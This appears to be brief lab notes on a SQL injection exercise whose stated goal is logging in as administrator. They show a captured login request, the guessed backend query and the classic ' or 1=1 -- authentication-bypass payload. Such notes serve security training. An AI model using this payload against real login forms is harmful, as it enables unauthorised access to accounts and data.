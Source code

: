 


# End goal: sql injection attack to login to the app as the administrator




# burp result

csrf=1dqXQlF8n9DvTGg7BihhSXqKPc7k8uwF&username=administrator&password=unknown


# predicted sql query

select * from users where username = 'administrator' and password = 'unknown'


# Payload

` ' or 1=1 -- `
